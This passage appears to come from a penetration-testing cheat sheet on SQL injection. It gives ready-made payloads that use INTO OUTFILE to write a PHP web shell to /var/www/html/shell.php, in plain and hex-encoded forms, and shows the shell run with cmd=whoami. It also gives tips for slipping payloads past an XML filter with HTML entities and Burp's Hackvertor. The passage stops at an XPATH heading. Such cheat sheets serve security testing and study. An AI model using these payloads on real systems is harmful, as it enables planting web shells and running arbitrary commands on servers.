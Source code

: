 <br />

## Writing Files

We can write arbitary code to a file as below.

```html
' SELECT '<?php echo system("id");?>' INTO OUTFILE '/var/www/html/shell.php'-- -
```

### HEX Encoded Payloads

```html
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E-- -
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E#
```

**'0x3C3F...'** is a hex encoded text meaning **"\<?php system($_GET["cmd"]) ?\>"**. After injectin, we can access to **`http://10.0.0.1/shell.php?cmd=whoami`**.

<br />

## XML Filter Bypass

Reference: [PortSwigger](https://portswigger.net/web-security/sql-injection)

```xml
<storeId>
    <!-- Convert 'S' to HTML entity -->
    1 &#x53;ELECT * FROM information_schema.tables
</storeId>
```

If you use **Burp Suite**, it’s recommended to use the **Hackvertor** extention to obfuscate payloads.  
For example, in **Repeater**, highlight the string which you want to encode. Then right-click and select **Extensions → Hackvertor → Encode → hex_entities**.  
After that, our payload is as below.

```xml
<storeId>
    <@hex_entities>
        1 UNION SELECT * FROM information_schema.tables
    <@/hex_entities>
</storeId>
```

<br />

## XPATH Injection

### MySQL
